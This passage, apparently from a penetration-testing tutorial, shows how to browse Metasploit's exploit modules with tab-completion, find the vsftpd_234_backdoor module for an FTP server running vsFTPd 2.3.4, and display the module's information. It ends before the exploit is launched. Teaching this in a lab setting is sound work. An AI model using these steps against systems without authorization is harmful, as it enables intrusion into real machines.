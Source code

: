 Now that we have these results, we know that we're looking at a Unix/Linux machine which is running vsFTPd version 2.3.4.  Let's use the 'point-and-click' approach with MSF and see if we find what we want.  First I'm going to type `use` to tell MSF that I want to use a module from it's collection, then start into exploit/linux and use tab-completion to see how many results are left:

```bash
msf5 > use exploit/linux/ <tab> <tab>
Display all 300 possibilities? (y or n)
```

Not great, let's see whether I can sort to exploit/linux/ftp, since I know `vsFTPd` is an FTP service:

```bash
msf5 > use exploit/linux/ftp/proftp_
use exploit/linux/ftp/proftp_sreplace    use exploit/linux/ftp/proftp_telnet_iac
```

Nope, not there.  Let's check exploit/unix instead:

```bash
msf5 > use exploit/unix/
Display all 195 possibilities? (y or n) 
```

Now, let's try exploit/unix/ftp since 195 is way too many:

```bash
msf5 > use exploit/unix/ftp/
use exploit/unix/ftp/proftpd_133c_backdoor  use exploit/unix/ftp/vsftpd_234_backdoor
use exploit/unix/ftp/proftpd_modcopy_exec
```

And there we have it!  vsftpd_234_backdoor looks like exactly what we want (remember, we wanted something targeting version 2.3.4.)  Go ahead and complete the process by running `use exploit/unix/ftp/vsftpd_234_backdoor`, then type `info` to get details about this module

```bash
msf5 > info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03
...
Description:
  This module exploits a malicious backdoor that was added to the 
  VSFTPD download archive. This backdoor was introduced into the 
  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
  according to the most recent information available. This backdoor 
  was removed on July 3rd 2011.
...
```
